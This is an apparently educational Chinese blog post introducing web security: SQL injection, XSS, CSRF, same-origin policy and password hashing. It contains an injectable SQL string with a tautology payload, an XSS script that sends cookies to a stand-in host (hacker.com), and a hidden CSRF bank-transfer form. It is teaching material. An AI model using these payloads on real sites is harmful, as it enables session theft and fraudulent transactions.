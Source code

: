 ```yaml
---
title: Web安全
date: 2019-02-16 17:57:46
category: Basic
---
```

互联网本来是安全的，自从有了研究安全的人之后，互联网就变得不安全了。

<br/>
### 1. sql注入
通过把sql命令插入到web表单提交，或输入域名/页面请求的查询字符串，最终达到欺骗服务器执行恶意sql命令。

变量id是一个从用户界面传来的值
```sql
string sql = " SELECT id, name, age from users WHERE id='" + id + "'"
```
ID值: *`1' OR '1' = '1`*
```sql
SELECT id, name, age
FROM users
WHERE id='1' OR '1' = '1'
```
从users表中的所有数据都查询出来，仅仅通过一个简单的恒真表达式。
<br/>



### 2. XSS跨站脚本攻击
黑客通过"HTML注入"篡改网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。

某个黑客发表了一篇文章，在`<input>`框中输入一段script
```js
<script type="text/javascript" src="http://hacker.com/hack.js"></script>
```


hack.js文件中的内容
```js
var img = document.createElement('img');
img.src = "http://hacker.com/log?" + escape(document.cookie);
document.body.appendChild(script);
```

一旦你浏览已经被黑客留下XSS script的页面，这段js就会执行，cookie信息就会被偷走。黑客可以假冒你的身份做事情了。

<br/>


### 3. CSRF跨站脚本伪造
假设有个银行网站用以下方式进行转账操作
```
http://www.bank.com/transfer.php?toBankId=<账号>&money=<金额>
```
你打开浏览器，先登录了银行网站，然后又开了一个tab页，打开了你的邮箱，有这么一个邮件：恭喜你获得了一台iphone x,点击领取。点击了上面的链接，就执行了转账操作。

后来银行转账功能不用`get`， 改用`post`。 

黑客也做了改进，建立了一个偷偷提交数据的页面。用户进入该页面，会自动提交表单。若用户已经登录了`www.bank.com`，请求成功。

从头到尾，攻击网站都没有获取到过cookie， 都是通过浏览器间接实现（利用web的cookie隐式身份验证机制），所以`httpOnly`并不会影响这个攻击。

```html
<body>
  <iframe name="steal" display:'none'>
    <form method="POST" name="transfer" action="http://www.bank.com/transfer.php">
      <input type="hidden" name="toBankId" value="123">
      <input type="hidden" name="money" value="10000">
    </form>
  </iframe>
  <script>
    function steal(){
      iframe = document.frames["steal"];
      iframe.document.submit("transfer");
    }
  </script>
</body>
```


#### 3.1 解决方案
- 检查referer: 根据地址判断是否接受请求
- 添加csrf token: 在cookie中写入一个随机生成的csrf token, 用户请求时把csrf token带上。



<br/>

### 4. 同源策略
只能通过`<script><image><iframe><link>`等标签跨域加载资源。
<br/>

### 5. 密码hash
原始密码经过哈希函数计算得到一个哈希值，同样的密码，哈希值是相同的。哈希函数是单向，不可逆的，也就是从哈希值，你无法推算出原始密码是多少。
<br/>

<br/>
### 参考资料
- [简单的 web 安全 checklist](https://cloud.tencent.com/developer/article/1004895)
- 码农翻身-web安全
- 《图解HTTP》第11章 Web的攻击技术